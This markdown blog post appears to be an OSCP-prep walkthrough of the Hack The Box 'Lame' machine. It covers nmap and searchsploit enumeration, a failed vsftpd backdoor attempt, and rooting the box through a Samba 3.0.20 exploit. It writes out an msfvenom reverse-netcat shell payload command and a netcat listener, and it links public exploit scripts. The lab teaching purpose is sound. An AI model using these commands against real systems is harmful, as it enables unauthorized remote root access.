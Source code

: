 ```yaml
---
layout: post
title: "HTB{Lame}"
categories: jekyll
permalink : notes/htb4oscp/linux/lame
---
```


## Box introduction

![lame](/musubi/assets/htboscp/linux/lame/lame.png)

## Requirements
> Basic Linux command

> Basic Python

## Enumeration

First, by running nmap scan, we will find the version of the services on the common ports that are open.

![nmap](/musubi/assets/htboscp/linux/lame/nmap.png)

So, there are 4 open ports which are;

`Ports:Service`

` 21:ftp `

` 22:ssh `

` 139:smb`

` 445:smb`

Based on the scan, we found other information too. So, first, we will start with `ftp` service.

### Enumerating FTP
Based on the scan, we have few information that might be useful;

I. Version : `vsftpd 2.3.4` (is it the latest version, any vulnerability related to the version?)

II. Anonymous login allowed (what's inside the anonymous session? any important file? )

### I. Version

so first, we will look at the version. We will check if there is any exploit related to the particular version in the exploitdb, so start by typing
`searchsploit vsftpd 2.3.4`

![searchsploit](/musubi/assets/htboscp/linux/lame/searchsploit.png)

and we found out that there is `Backdoor Command Execution` exploit available. Let's take a look at the exploit, below is only the part of the full exploit;

![snippet](/musubi/assets/htboscp/linux/lame/exploit.png)

as we can see, the exploit is part of `Metasploit Framework`. So, we can start `msf` and run the exploit or we can exploit it without using `metasploit` . For now, let's do it without `metasploit`

So, I found a python version at this github [repo](https://raw.githubusercontent.com/In2econd/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py), but when we try to run it, we will find that the attack failed.

![failpython](/musubi/assets/htboscp/linux/lame/failpython.png)

So, let's move on for now...

### II. Anonymous login

There is no information that can be obtained from anonymous session. So, we will move on too.

![anonymousftp](/musubi/assets/htboscp/linux/lame/anonymousftp.png)


### Enumerating SSH

Since there is no credentials found and the version `OpenSSH 4.7p1` has no known vulnerability, we will move on to the next service.

### Enumerating SMB

Since there are two ports open, we will first look at the version that has been scanned by our `nmap`.

`Port:Service:Version`

` 139:SMB:Samba smbd 3.X - 4.X `

` 445:SMB:Samba smbd 3.0.20-Debian`


### Version vulnerabilities
Since port 139 does not show the exact version of samba, so we will ignore it for now and go to port 445, which is `smbd 3.0.20`. Using `searchsploit`, we will come across two vulnerabilities.

![vuln](/musubi/assets/htboscp/linux/lame/searchsploitsamba.png)

So, by reading the first exploit, we know it is part of the `metasploit` modules too. Luckily, I found a python version in this [repo](https://gist.githubusercontent.com/joenorton8014/5aeffe8220e790f3356fbbd6b508efbc/raw/06712ff5afca5ee7f5dcfdd7dafc67d4688452d5/samba-usermap-bind.py).

So, let's take a look at the exploit code;

![sourcecodeusermap](/musubi/assets/htboscp/linux/lame/sourcecodeusermap.png)

As we can see, the code is really simple to understand and to edit.
The first thing we want to do is, we need to change the current shellcode into our shellcode instead;

To generate our shellcode using `msfvenom`, simply type :

` msfvenom -p cmd/unix/reverse_netcat LHOST=[Kali IP] LPORT=[Kali Port] -f python`

which tells `msfvenom` to create our shellcode and output it in python format.

![payload](/musubi/assets/htboscp/linux/lame/payload.png)

Then replace the available shellcode in the exploit with our new generated one. (under `shellcode`)

## Exploitation

Then , set up our listener based on the IP that we have set for our shellcode. Type,

`nc -lvnp [Kali Port]`

then , execute our exploit.

![executed](/musubi/assets/htboscp/linux/lame/executed.png)

and boom!! we got a connection to our `netcat` listener. :3

![connection](/musubi/assets/htboscp/linux/lame/connection.png)

## Post exploitation

This exploit will give us directly a `root` access. We can confirm it by running `whoami` .

![whoami](/musubi/assets/htboscp/linux/lame/root.png)

## Knowledge gained
> Exploiting samba using service version attack

And, thank you for today. Hope you learned a lot from this writeup. Until next time. :D

